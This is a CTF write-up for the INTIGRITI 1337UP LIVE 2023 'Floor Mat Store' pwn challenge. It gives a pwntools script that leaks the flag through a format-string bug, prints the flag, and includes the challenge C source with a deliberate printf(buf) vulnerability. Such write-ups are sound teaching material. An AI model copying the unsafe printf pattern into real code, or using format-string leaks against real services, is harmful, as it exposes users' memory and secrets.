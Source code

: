 ```yaml
---
CTF: INTIGRITI 1337UP LIVE 2023
Challenge Name: Floor Mat Store
Category: Pwn
Date: 17/11/23
Author: CryptoCat
Points: 100
Solves: 112
---
```

[![VIDEO](https://img.youtube.com/vi/Zu32BHwH-sA/0.jpg)](https://youtu.be/Zu32BHwH-sA "Floor mats: Format string exploit")

### Description
>Welcome to the Floor Mat store! It's kind of like heaven.. for mats

# Solution
Watch video for full solution (format string exploit), but here's a solve script (note the index will vary from local/remote, but you can just send `%p * 100` or something instead).
```python
from pwn import *

# Connect to server
io = process('./floormats')

flag = ''

io.sendlineafter(b'Enter your choice:\n', b'6')
io.sendlineafter(b'Please enter your shipping address:\n',
                 b'%18$p %19$p %20$p %21$p')
io.recvuntil(b'Your floor mat will be shipped to:\n\n')

response = io.recv(1000)

# Split response by spaces
for i, p in enumerate(response.split(b' ')):
    try:
        if not b'nil' in p:
            try:
                # Decode, reverse endianess and print
                decoded = unhex(p.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(i) + ": " + str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException as e:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```

Running the script leaks the flag!
```
INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_pr1n7f}
```

## Bonus: source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);

    char *mats[] = {
        "1. Cozy Carpet Mat - $10",
        "2. Wooden Plank Mat - $15",
        "3. Fuzzy Shag Mat - $20",
        "4. Rubberized Mat - $12",
        "5. Luxury Velvet Mat - $25",
        "6. Mysterious Flag Mat - $1337"
    };

    char buf[128];
    char flag[64];
    char *flag_ptr = flag;

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    FILE *file = fopen("flag.txt", "r");
    if (file == NULL) {
        printf("You have a flag.txt, right??\n");
        exit(0);
    }

    puts("Welcome to the Floor Mat store! It's kind of like heaven.. for mats.\n\nPlease choose from our currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n");

    printf("Please select a floor mat:\n\n");
    for (int i = 0; i < 5; i++) {
        printf("%s\n", mats[i]);
    }

    int choice;
    printf("\nEnter your choice:\n");
    scanf("%d", &choice);

    if (choice < 1 || choice > 6) {
        printf("Invalid choice!\n\n");
        exit(1);
    }

    int matIndex = choice - 1;

    while (getchar() != '\n');

    if (matIndex == 5) {
        fgets(flag, sizeof(flag), file);
    }

    printf("\nPlease enter your shipping address:\n");

    fgets(buf, sizeof(buf), stdin);

    printf("\nYour floor mat will be shipped to:\n\n");

    printf(buf);

    return 0;
}
```